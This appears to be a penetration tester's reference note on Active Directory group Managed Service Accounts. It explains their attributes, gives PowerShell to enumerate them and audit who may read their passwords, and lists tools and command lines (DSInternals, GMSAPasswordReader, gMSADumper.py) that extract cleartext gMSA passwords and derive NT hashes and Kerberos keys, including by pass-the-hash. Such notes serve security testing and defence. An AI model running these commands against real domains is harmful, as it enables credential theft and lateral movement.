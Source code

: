 # Active Directory - group Managed Service Accounts (gMSAs)

### Overview

Introduced in `Windows Server 2012`, `group Managed Service Accounts (gMSAs)`
are service accounts managed by the Active Directory domain services. `gMSAs`
address a shortcoming of standalone `Managed Service Accounts (MSA)`, that were
introduced in `Windows Server 2008`, and were only usable on a single computer.
`gMSAs` use 240-byte passwords, generated and periodically rotated - 30 days by
default - by (writable) Domain Controllers using the domain
`Key Distribution Services (KDS)` `root key`.

`gMSAs` created using the `New-ADServiceAccount` PowerShell cmdlet are by
default placed in the default managed service accounts container
(`CN=Managed Service Accounts,<DOMAIN_ROOT>`).

`gMSAs` are objects of class `ms-DS-Group-Managed-Service-Account` (subclass of
`Computer`) with the following additional attributes:
  - `msDS-GroupMSAMembership` (`PrincipalsAllowedToRetrieveManagedPassword`):
    defines which security principal(s) can retrieve the `gMSA` password
    (in the `msds-ManagedPassword` attribute). It corresponds to a security
    descriptor, with principal(s) having the right to retrieve the
    `gMSA` password being granted the `RIGHT_DS_READ_PROPERTY` access control
    right.

  - `msds-ManagedPassword`: a
    [`MSDS-MANAGEDPASSWORD_BLOB`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/a9019740-3d73-46ef-a9ae-3ea8eb86ac2e)
    that contains the `gMSA`'s previous and current clear-text password, as
    well the expiration timers of the current password. The
    `msds-ManagedPassword` attribute is a constructed attribute, calculated by
    a (writable) Domain Controller upon each query using the
    `Key Distribution Services (KDS)` `root key` and the key identifiers.

  - `msDS-ManagedPasswordId` and `ms-DS-ManagedPasswordPreviousId`: contain the
    key identifier used to compute, respectively, the current and previous
    password of the `gMSA`.

  - `ms-DS-ManagedPasswordInterval`: contains the interval period in days under
    which the `gMSA`'s password will be rotated. By default, the rotation
    period is 30 days.

### gMSAs enumeration

The PowerShell `ActiveDirectory` module can be used to enumerate the `gMSAs`:

```bash
# Enumerates the gMSA in the domain.
Get-ADServiceAccount -Filter *
Get-ADObject -LDAPFilter "(objectClass=msDS-GroupManagedServiceAccount)" -Properties *

# Retrieves the principals allowed to retrieve gMSAs' password.
Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword

# Retrieves the principals allowed to retrieve gMSAs' password and highlights potentially dangerous rights (simple analysis based on direct principal names matching).
$PrivilegedPrincipalsRegex = [string]::Join('|', @('CN=Domain Admins', 'CN=Enterprise Admins', 'CN=Domain Controllers'))
$UnprivilegedPrincipalsRegex = [string]::Join('|', @('CN=Domain Users', 'Everyone', 'CN=Domain Computers', 'Authenticated Users', 'Anonymous'))

Get-ADServiceAccount -Filter * -Properties PrincipalsAllowedToRetrieveManagedPassword | ForEach-Object {
    Write-Host -ForegroundColor DarkGreen -BackgroundColor White $_.SamAccountName
    Write-Host $_.DistinguishedName
    Write-Host $_.SID
    Write-Host "`n"

    Write-Host "PrincipalsAllowedToRetrieveManagedPassword:"
    foreach ($Principal in $_.PrincipalsAllowedToRetrieveManagedPassword) {
        If ($Principal -match $UnprivilegedPrincipalsRegex) {
            Write-Host -ForegroundColor Green $Principal
        }
        ElseIf ($Principal -match $PrivilegedPrincipalsRegex) {
            Write-Host -ForegroundColor Red $Principal
        }
        Else { Write-Host -ForegroundColor Yellow $Principal }
    }

    Write-Host "`n"
}
```

### gMSAs ACL enumeration and msDS-GroupMSAMembership modification

Refer to the `[ActiveDirectory] ACL exploiting` note
(`group Managed Service Accounts (gMSA)` section) for more information on
techniques and tools to modify `gMSAs`'s `msDS-GroupMSAMembership` attribute.

### gMSAs password retrieval

Multiple tools and utilities can be used to retrieve a `gMSA` account password,
and further derivate its `NTLM` / `NTHash` and `Kerberos` secrets
(`AES 128` and `AES 256` keys):

| Tool | URL | Description |
|------|-----|-------------|
| PowerShell `ActiveDirectory` and [`DSInternals`](https://github.com/MichaelGrafnetter/DSInternals) modules: <br><br> `ActiveDirectory` module: <br> `Get-ADServiceAccount` <br><br> `DSInternals` module: `ConvertFrom-ADManagedPasswordBlob` <br>  `ConvertTo-NTHash` | https://github.com/MichaelGrafnetter/DSInternals | Combination of PowerShell cmdlets from the `ActiveDirectory` and `DSInternals` modules to retrieve all or the specified `gMSAs` password and compute the corresponding `NTLM` / `NTHash` and `Kerberos` secrets. <br><br> Uses the current security context and supports alternate credentials (username/password). |
| [`GMSAPasswordReader`](https://github.com/rvazarkar/GMSAPasswordReader) | https://github.com/rvazarkar/GMSAPasswordReader | C# utility that retrieve the specified `gMSA` current and past password to calculate the corresponding `NTLM` / `NTHash` and `Kerberos` secrets. <br><br> Uses the current security context. |
| [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper) | https://github.com/micahvandeusen/gMSADumper <br><br> Compiled standalone Linux / Windows x64 binaries: <br> https://github.com/Qazeer/OffensivePythonPipeline | Python script to retrieve all `gMSAs` password (that the given user has access to) to compute the corresponding `NTLM` / `NTHash`. <br><br> Supports user authentication with username/password, username/`NTHash`, or `Kerberos` tickets (on Linux using a ticket in the `credential cache (ccache)` format). Does not leverage the current security context. |

```bash
# PowerShell ActiveDirectory and DSInternals modules.
# Import-Module "<PATH>\DSInternals.psd1"
$gMSA = Get-ADServiceAccount -Identity '<GMSA_NAME>' -Properties 'msDS-ManagedPassword'
$msDSMP_blob = $gMSA.'msDS-ManagedPassword'

# Decodes the MSDS-MANAGEDPASSWORD_BLOB data structure using the DSInternals module.
$CleartextPassword = ConvertFrom-ADManagedPasswordBlob $msDSMP_blob
$CleartextPassword

# Converts the cleartext password to the corresponding NTLM / NT hash using the DSInternals module.
# To compute the corresponding Kerberos secrets using the cleartext password, refer to the "[ActiveDirectory] Kerberos tickets usage" note.
ConvertTo-NTHash -Password $CleartextPassword.SecureCurrentPassword

# GMSAPasswordReader C# utility.
GMSAPasswordReader.exe --AccountName <GMSA_NAME>

# gMSADumper.py Python script and standalone compiled binaries.
gMSADumper.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD>

# <LM_HASH | NT_HASH> if only the NT_HASH is known: 'aad3b435b51404eeaad3b435b51404ee:<NT_HASH>'
gMSADumper.py -d <DOMAIN> -u <USERNAME> -p <LM_HASH | NT_HASH>

# On Linux, Kerberos authentication using a Ticket-Granting-Ticket in the ccache format.
gMSADumper.py -k -d <DOMAIN> -u <USERNAME>
```

--------------------------------------------------------------------------------

# References

https://docs.microsoft.com/en-us/powershell/module/activedirectory/new-adserviceaccount

https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/

https://it-central.fr/wp-content/uploads/2017/05/202938243-Comptes-et-groupes-de-services-VSA-MSA-gMSA-tuto-de-A-a-Z.pdf

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#readgmsapassword

